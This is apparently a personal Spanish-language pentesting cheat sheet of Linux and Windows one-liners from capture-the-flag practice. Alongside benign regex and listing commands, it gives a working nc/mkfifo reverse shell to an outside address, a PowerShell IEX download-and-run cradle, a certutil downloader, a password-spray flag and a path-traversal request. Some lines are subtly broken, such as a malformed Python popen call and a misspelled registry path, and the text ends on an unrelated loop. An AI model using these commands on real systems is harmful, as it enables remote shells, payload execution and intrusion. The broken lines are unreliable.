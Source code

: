 ## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `'/^\s*$/d`
**Expresion regular para filtrar por rangos con awk**: `awk "/' -/,/:cannot open/" `
## Linux
**Reverse Shell; MKFIFO**: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;*`
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: `-u users -p '<password>' --continue-on-success`
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**:`print(os.popen(""$command")).read())`
**Mandar binarios de maquina victima a maquina atacando con SSH**: `sshpass -p '$passwd' scp $user@$ip:/path/to/binary .`
**Conseguir la fecha, hora, segundo y año(linux):** `date +%F_%H:%M:%S `
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
**Escanear puertos con netcat:** `nc -zvw 1 localhost 1-1000`
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
**Para saber la version de windows:** `reg query "hklm\software\microsfot\windows nt\currentversion" /v ProductName`
**Listar contenido oculto:** `dir -Force`
**Listar reglas de firewall:** `netsh advfirewall show currentprofile`
**Listar permisos de un archivo:** `icacls archivo`
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.
i=1; for folder in $(ls -d */); do mv "$folder" "$i.$folder"; i=$((i+1)); if [ $i -gt 10 ]; then break; fi; done

